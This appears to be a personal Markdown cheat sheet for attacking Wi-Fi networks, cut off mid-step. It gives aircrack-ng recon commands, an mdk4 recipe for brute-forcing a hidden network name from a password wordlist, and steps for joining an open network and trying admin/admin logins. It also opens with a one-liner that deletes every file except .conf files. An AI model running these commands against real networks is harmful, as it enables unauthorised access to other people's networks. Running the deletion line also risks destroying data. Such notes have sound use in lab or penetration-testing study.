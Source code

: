# Main
- delete unused files: ``` find . -type f ! -name "*.conf" -exec rm {} \;```

## Basic Recon

- monitor channel has another name: wlan1mon 
- 'Station' = mac address of that AP | CH = channel
- ```--band abg```: This specifies that the tool should capture packets on both 2.4 GHz (b) and 5 GHz (a) bands
- ```--manufacturer```: This flag enables logging of manufacturer information for detected devices based on their MAC addresses.
- ```--wps```: This option includes WPS (Wi-Fi Protected Setup) information in the output, which can provide details about supported WPS versions and configuration methods.

### Init setup: Clean processes first:
 ``` sudo airmon-ng check kill ```

### Airodump basic
- Check AP/ESSID/Channel/etc..
    ```
    sudo airmon-ng start wlan0
    sudo airodump-ng wlan0mon -w ./scan --manufacturer --wps --band abg 
    -c {channel number for smaller scope}

    ```
- Turn off monitor mode
  
  ``` sudo airmon-ng stop wlan1mon ```    

### Crack hidden AP name
    ```
    // prep wordlist | customize it 
    cat /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt | awk '{print "wifi-" $1}' > ./wifi-rockyou.txt 
    
    // ready crack | Remember turn off airodump first !!! | try few more times
    iwconfig wlan0mon channel 11
    mdk4 wlan0mon p -t {BSSID} -f ./wifi-rockyou.txt
    ```
   
## OPN 
### Direct login with admin/admin
1. create {name}.conf file
   ```
        network={
        ssid="$ESSID"
        key_mgmt=NONE
        scan_ssid=1 
        }
   ```
2. connect with other wifi interface (not wlan2)```sudo wpa_supplicant -D nl80211 -i wlan2 -c free.conf ```
3. ``` sudo dhclient wlan2 ```
4. (optional) disconnect the connection
   ```
    ps -aux | grep wpa_supplicant
